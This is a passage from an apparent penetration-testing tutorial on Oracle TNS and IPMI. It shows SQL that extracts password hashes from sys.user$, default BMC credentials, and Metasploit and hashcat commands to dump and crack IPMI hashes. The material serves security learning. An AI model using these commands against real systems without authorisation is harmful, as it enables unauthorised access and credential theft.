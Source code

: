 Accessing the Oracle TNS database requires us to install SQLPlus client from Oracle into our client machine. It’s possible to install the SQLPlus client using the following commands.

```shell title="Oracle TNS"
# Install SQLPlus
sudo apt-get install  oracle-instantclient-sqlplus

# Fix issue with SQLPLus
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

SQL language for Oracle TNS is similar to MSSQL database. However, it requires us to use different layout to access the different informations.

```sql title="Oracel TNS"
-- Listing all tables
select table_name from all_tables;

-- See all user privileges
select * from user_role_privs;

-- Extact usernames and passwords
select name, password from sys.user$;
```

Oracle TNS is a popular application for enterprises as it’s compatible with Oracle’s enterprise applications. It’s worth digging deeper into the Oracle TNS if you’re interested learning more about it.

### IPMI

IPMI (Intelligent Platform Management Interface) is a hardware-based management system that is assigned the UDP Port 623 and it’s used for managing and monitoring systems even when they are powered off. It allows IT administrators to monitor temperature, voltage, fan status, and power supplies and it can be setup with SNMP to send alerts and logs. In some instances the IPMI can be accessed through default credentials because IT administrator forgot to change it.

| **Product**     | **Username**  | **Password**                                                |
| --------------- | ------------- | ----------------------------------------------------------- |
| Dell iDRAC      | root          | calvin                                                      |
| HP iLO          | Administrator | Randomized 8 character consisting with numbers and strings. |
| Supermicro IPMI | ADMIN         | ADMIN                                                       |

If the HP iLO is using the default credentials it’s possible to use Hashcat to guess the password with the following command `{bash}hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u`. In some instances it’s possible for us to dump the IPIMI hash using the following commands.

```shell title="IPMI"
# Launch msfconsole
msfconsole

# Use IPMI bruteforce script
use auxiliary/scanner/ipmi/ipmi_dumphashes

# Setting Remote Port
set RHOST '<IP>'

# Executing brute-force attack
run

# Using hashcat to crack password hash
hashcat -m 7300 '<HASH>' /usr/share/wordlists/rockyou.txt
```
